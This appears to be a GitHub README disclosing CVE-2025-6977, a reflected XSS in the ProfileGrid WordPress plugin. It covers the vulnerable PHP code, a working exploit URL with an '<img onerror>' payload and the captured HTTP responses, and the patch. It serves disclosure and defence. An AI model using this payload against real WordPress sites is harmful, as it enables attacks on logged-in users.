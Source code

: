 # CVE-2025-6977 – Reflected XSS in ProfileGrid WordPress Plugin (Unauthenticated)
- **CVE ID**: [CVE-2025-6977](https://www.cve.org/CVERecord?id=CVE-2025-6977)
- **Vulnerability Type**: Reflected Cross-Site Scripting (XSS)
- **Plugin Affected**: ProfileGrid – User Profiles, Groups and Communities
- **Affected Version(s)**: ≤ 5.9.5.4
- **CVE Discovered By**: [Kenneth Billones (Wordfence)](https://www.wordfence.com/threat-intel/vulnerabilities/researchers/kenziy)
- **Exploit PoC Author**: [CANITEY](https://github.com/canitey)
## Description
The ProfileGrid – User Profiles, Groups and Communities plugin for WordPress is vulnerable to Reflected Cross-Site Scripting via the ‘pm_get_messenger_notification’ function in all versions up to, and including, 5.9.5.4 due to insufficient input sanitization and output escaping. This makes it possible for unauthenticated attackers to inject arbitrary web scripts in pages that execute if they can successfully trick a logged-in user into performing an action such as clicking on a link.

The vulnerable endpoint is: `/wp-admin/admin-ajax.php?action=pm_get_messenger_notification&timestamp=<vulnerable parameter>&activity=&tid=1`
## Vulnerable snippet
```php
// public/class-profile-magic-public.php
public function pm_get_messenger_notification() { // (1)
	$pmmessenger = new PM_Messenger();
	$timestamp   = filter_input( INPUT_GET, 'timestamp' );
	$activity    = filter_input( INPUT_GET, 'activity' );
	$tid        = filter_input( INPUT_GET, 'tid' );
			 if($tid!=0)
			 {
				$return     = $pmmessenger->pm_get_messenger_notification( $timestamp, $activity, $tid );
				echo $return;
			 }
	die;
}
```
Before diving into the code snippet above, let's first explain the functions involved.
1. `filter_input(<type>, '<variable name>')` this function has 2 main parameters to be passed (we will be introduced to another one shortly), 
	1. `<type>` One of the `INPUT_*` constants, in our case `INPUT_GET` this variable means that we will receive data from a get parameter.
	2. `<variable name>` in our context it means the get parameter name the we will parse the value from.

As shown in the code snippet above.

The function `pm_get_messenger_notification` uses the `filter_input` function in 2 positions to get the `timestamp` value and put it in the corresponding variable. The issue lies in the fact that this implementation the `pm_get_messenger_notification` function get the value with no filtering or sanitization and pass them to `pm_get_messenger_notification` method of the `$pmmessenger` object (that's a different function) and I will explain what is the problem with that via the next code snippet.

```php
//  includes/class-profile-magic-messenger.php
// The snippet is more than 33 line so I cut the unneccessary line
public function pm_get_messenger_notification( $timestamp, $activity, $tid ) {

// -- snip --

			$result = array( 
				'activity'         => $activity,
				'data_changed'     => $data2,
				'typing_timestamp' => $last_change_in_typing,
				'timestamp'        => $last_change_in_thread,
				'timexxx'          =>$timestamp, (2)
				'last_ajax'        =>$last_ajax_call,
			);

					$json =  wp_json_encode( $result );
					 return $json;

	}

			$result =array();
			$json   = wp_json_encode( $result );
			return $json;

}
```

as shown at (2), the function uses `timestamp` directly from the passed parameter and return it as in json response, so by passing an `XSS` payload to the endpoint triggering the `pm_get_messenger_notification` function at (1) it will pass with no filters to the method `pm_get_messenger_notification` and then be displayed in response, and because the `Content-Type` is declared as `text/html` for the response this would allow the XSS to be executed.

## Exploitation
After installing wordpress, with the target version of the plugin, XSS can be triggered via the following endpoing:
 `http://vulnerable.word.press/profilegrid/wp-admin/admin-ajax.php?action=pm_get_messenger_notification&timestamp=1753214905&activity=&tid=1`
 via the `timestamp` parameters.

PS: To have the payload reflected to you, you need to have an active session and then visit the URL, other than that the response would be 0

---
The is the normal response without XSS payload
```
HTTP/1.1 200 OK
Date: Fri, 25 Jul 2025 17:09:25 GMT
Server: Apache/2.4.58 (Ubuntu)
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 94
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"activity":"","data_changed":true,"typing_timestamp":false,"timestamp":1753459470}
```

And this is the response while passing `<s>` to the `timestamp` parameter
`/wp-admin/admin-ajax.php?action=pm_get_messenger_notification&timestamp=%3Cimg%20src=x%20onerror=alert()%3E&activity=ss&tid=4`
```
HTTP/1.1 200 OK
Date: Fri, 25 Jul 2025 17:11:58 GMT
Server: Apache/2.4.58 (Ubuntu)
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 133
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"activity":null,"data_changed":false,"typing_timestamp":false,"timestamp":1753459470,"timexxx":"<img src=x onerror=alert()>","last_ajax":0}
```

### Attached with this README an automated exploit file.

## Patch Analysis
The vulnerability was patched in version **5.9.5.5** of the plugin. The developers addressed the issue by sanitizing the `timestamp` parameter using:
```php
$timestamp = filter_input( INPUT_GET, 'timestamp', FILTER_VALIDATE_INT );
```

An additional preventive measure — which was not implemented — would have been to explicitly set the response content type to JSON:
```php
header('Content-Type: application/json');
```
This would instruct the browser to treat the response as pure JSON, thereby blocking script execution, even if malicious content slipped through. While the input sanitization fix neutralizes the attack, setting the correct `Content-Type` would further harden the response against XSS.

# References
- [CVE Record on CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-6977)
- [Plugin Page – ProfileGrid](https://wordpress.org/plugins/profilegrid-user-profiles-groups-and-communities/)
- [Wordfence Advisory](https://www.wordfence.com/threat-intel/)

